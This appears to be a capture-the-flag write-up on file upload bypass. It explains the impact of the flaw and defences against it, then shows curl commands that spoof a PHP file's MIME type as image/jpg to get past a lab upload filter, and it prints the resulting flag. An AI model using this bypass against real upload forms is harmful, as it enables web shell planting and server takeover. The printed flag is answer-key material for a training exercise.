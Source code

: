 # Upload bypass

## Impact of a File Upload Attack

- **Phishing attacks** :Hackers can trick users with malicious scripts to gain access to sensitive data.

- **Remote code execution** : Attackers leverage file upload commands to upload a web shell that allows them to execute arbitrary commands on the application server.

## Preventing file upload vulnerability

- **Validate File Formats and Extensions** : Make sure you check the file extension of uploaded files against a white-list of permitted file types. Do this on the server-side, since client-side checks can be circumvented.

- **File upload validation** : When validating file uploads, use trusted validation frameworks that address all potential gaps that attackers could exploit

- **File name restrictions** : Once a file has been uploaded, remove all potentially dangerous characters, including unicode characters and special characters, to prevent injection attacks. Changing the uploaded file’s name is also recommended to prevent directory path exploits.

- **File size restrictions**: Enforce a file size limit and a maximum number of files that can be uploaded to keep attackers from flooding file storage.

## Attack scenario

In ?page=upload page we are asket to upload an image so lets try to upload a malicious file first i tried a file .php and got this response

> Your image was not uploaded.

then I tried next .php.jpg the response was

> /tmp/file.php.jpg succesfully uploaded.

But no flag so there is another way to do it lets try with curl 

> -X to specify the method type in our case its POST

> -F specify data to send (files) example email=blabla@blabla.bla the email is the name of the input

In our case there is 2 input the first one is uploaded that contain the data then Upload to submit

> curl -i -X POST -F "uploaded=@/Users/oel-ouar/Desktop/file.php" -F Upload=Upload http://ipaddress/?page=upload

We got the same response now lets try to change the mime type of the file

> curl -i -X POST -F "uploaded=@/Users/oel-ouar/Desktop/file.php;type=image/jpg" -F Upload=Upload http://10.12.177.243/?page=upload

Worked !

> <h2 style="margin-top:50px;">The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8</h2>

